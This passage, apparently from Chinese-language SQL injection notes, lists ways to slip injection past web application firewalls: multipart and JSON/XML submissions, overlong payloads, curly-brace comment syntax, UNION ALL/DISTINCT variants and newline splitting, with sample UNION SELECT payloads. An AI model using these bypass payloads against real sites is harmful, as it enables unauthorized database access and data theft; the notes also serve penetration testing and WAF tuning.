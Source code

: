 如：select * form users where id=1 into @a,@b,@c,@d;

 

multipart/form-data绕过

我对这个协议和编码方式不太了解

只知道这是文件上传的一个模式

表示该数据被编码为一条消息，页上的每个空间对应消息中的一个部分

我们可以自己写一个页面然后将action指向跳转页面

如果waf没有对该模式进行匹配的话则会被绕过

 

application/json text/xml绕过

有些程序采用json或者xml提交参数

因此将注入参数换为json格式或者xml格式

有可能绕过检查

 

溢出绕过

有的waf只检查前1000（有限个）字符

因此当注入字符超过1000个时

超出的部分可能就会绕过检测

 

花括号绕过

select 1,2 union select {x 1},user()

花括号里边左边是注释的内容

这样可以绕过waf拦截

 

ALL或者DISTINCT绕过

去掉重复值

select 1,2 from users where user_id=1 union DISTINCT select 1,2

select 1,2 from users where user_id=1 union select DISTINCT 1,2

显示全部

select 1,2 from users where user_id=1 union all select 1,2

select 1,2 from users where user_id=1 union select all 1,2

 

换行混绕绕过

目前一些waf对某些连接起来的字符会进行过滤

我们使用换行符加上注释符将连接起来的字符分来
